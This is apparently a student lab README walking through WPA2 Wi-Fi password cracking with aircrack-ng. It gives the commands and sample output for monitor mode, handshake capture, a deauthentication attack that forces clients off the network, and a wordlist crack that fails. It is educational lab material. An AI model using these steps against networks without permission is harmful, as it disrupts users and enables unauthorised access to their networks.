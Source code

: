 # Aircrack-ng

This is documentation for using aircrack-ng as tools
to crack password files.

### [starting airmon-ng]

This command is used for checking if the wifi card supports monitoring mode or not.

````
$ sudo airmon-ng start wlp1s0

PHY	Interface	Driver		Chipset

phy0	wlp1s0		ath9k		Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

		(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp1s0)
````
    
### [airodump-ng ESSID]

````
$ sudo airodump-ng wlp1s0mon
````

````
 CH  8 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -57       87        4    0   1   65   WPA2 CCMP   PSK  hello-world
 xx:xx:xx:xx:xx:xx  -75      125     1073   46   5  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -83       29       10    0   6  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -88       35        0    0   1  130   WPA  CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -87       16        0    0   8  130   WPA2 CCMP   PSK  xxxxxxxxxx

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx  -33    0e- 0e     0       22                     
 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx   -1    1e- 0      0        1             
 
````

### [airodump-ng and aireplay-ng]

To get four way handshake, we need **`airodump-ng`** and
**`aireplay-ng`** to run together. The tools will then connect each other to indicate the handshake has been
made or not. Fail to do this or quickly stopping the scan 
will then lead to failure to do the handshake that we need. 
It'll also generate .cap file that we can use to do password 
cracking with aircrack-ng.
 
### [airodump-ng]

By using airodump-ng, we can see essid around us that can be
pawned. What we need in this session is:

`[WPA handshake: MA:C0:AD:DR:ES:S0]`

this will indicate that 
the wpa handshake is understood. It'll show when we do the 
next step. `--write pwnd` command will specify the results
into `pwnd` file, you can change this with your own file
output.


````
$ sudo airodump-ng -c 4 --bssid MA:C0:AD:DR:ES:S0 --write pwnd wlp1s0mon
````

````
 CH  4 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm ][ WPA handshake: MA:C0:AD:DR:ES:S0
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -56  87      528      465    1   1   65   WPA2 CCMP   PSK  hello-world

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -36    1 - 1      0      331                                                               
 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -35    0e- 1     46      396  EAPOL     
````

### [aireplay-ng deauth]
Deauthenticating user that is connected to the network means
that they have to do the same login to then connect to the 
wifi that we're trying to brute-forcing. By doing this, it'll
then taking the information to do handshake with airdump-ng.

````
$ sudo aireplay-ng --deauth 50 -a MA:C0:AD:DR:ES:S0 wlp1s0mon
````

````
yyyy-mm-dd hh:mm:ss,1900-01-00 00:00:00,,MA:C0:AD:DR:ES:S0,-43,,0.000000,0.000000,0.000,0.000,Client
````


### [file list]

This is the list structure of the folder. there will be 6
files that will be indicated by the name
````
~/lab7 ls
.  ..  pwnd-01.cap  pwnd-01.csv  pwnd-01.kismet.csv  pwnd-01.kismet.netxml  pwnd-01.log.csv  readme.md
````


### [aircrack-ng command]
 
aircrack-ng will then do the cracking by using the wordlist that has
been indicated on the wordlist.txt, in this file, I'll be using
`common-wordlist.txt` as wordlist file.

````
$ sudo aircrack-ng pwnd-01.cap -w common-wordlist.txt 
````

as you can see on the results below, aircrack-ng says `KEY NOT FOUND`
this means that it can't pawn the network SSID because the wordlist
is not sufficient for this purpose.

````
                               Aircrack-ng 1.6 

      [00:00:00] 478/477 keys tested (2002.39 k/s) 

      Time left: --

                                KEY NOT FOUND


      Master Key     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
````

in the end, aircrack-ng can do its job if the wordlist is good enough
that it contains password for doing the cracking, otherwise it'll not
be useful. Brute-forcing is a good technique to use if you have enough
information of the target, otherwise, it'll fail.

